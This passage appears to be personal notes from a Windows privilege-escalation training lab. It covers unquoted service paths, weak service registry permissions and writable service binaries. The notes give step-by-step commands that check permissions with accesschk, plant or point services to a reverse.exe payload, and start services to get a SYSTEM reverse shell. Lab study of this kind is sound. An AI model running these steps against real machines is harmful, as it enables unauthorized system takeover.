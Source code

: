 `sc qc unquotedsvc`

![[Pasted image 20251006222714.png]]

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:  

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

![[Pasted image 20251006222744.png]]

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

![[Pasted image 20251006222938.png]]

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

## Service Exploits - Weak Registry Permissions
Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

`sc qc regsvc`

![[Pasted image 20251006223226.png]]

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

![[Pasted image 20251006223245.png]]

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start regsvc`

## Service Exploits - Insecure Service Executables
Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

`sc qc filepermsvc`

![[Pasted image 20251006223540.png]]

Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
